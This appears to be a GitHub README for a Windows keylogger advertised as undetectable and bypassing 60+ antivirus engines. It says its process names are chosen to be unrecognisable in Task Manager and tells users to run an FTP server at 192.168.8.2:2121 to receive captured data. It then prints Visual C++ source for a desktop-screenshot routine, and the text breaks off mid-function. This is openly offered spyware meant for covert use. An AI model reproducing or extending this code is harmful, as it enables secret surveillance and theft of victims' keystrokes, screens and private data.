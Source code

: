 These names Given for unrecognisable in Task Manager.

### How to Use ?

1. Start FTP Server on This Ip Address 192.168.8.2:2121
2. and Start both program and Enjoy!!!!

### Undectable keylogger (60+ Antivirus Bypass)

<img src="virustotal.PNG">

### Visual C++ Source Code

#### Capture Screenshot

```
void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);//create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);//copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;//get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());//sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder); //save in jpeg format
	SelectObject(dc2,holdbitmap);//Release Objects
	DeleteObject(dc2);
```